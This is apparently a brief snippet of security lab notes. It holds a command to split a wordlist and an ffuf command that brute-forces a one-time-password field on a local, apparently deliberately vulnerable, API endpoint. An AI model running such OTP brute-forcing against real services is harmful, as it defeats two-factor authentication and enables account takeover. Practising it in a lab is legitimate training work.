 # Split into 5 files (modify -l for different number of files)
split -l 2000 -d wordlist.txt wordlist_part

## ffuf
ffuf -w list.txt -X POST -d '{"otp":"FUZZ"}' -H "Content-Type: application/json" -u http://localhost/vapi/api4/otp/verify --mc 200 -s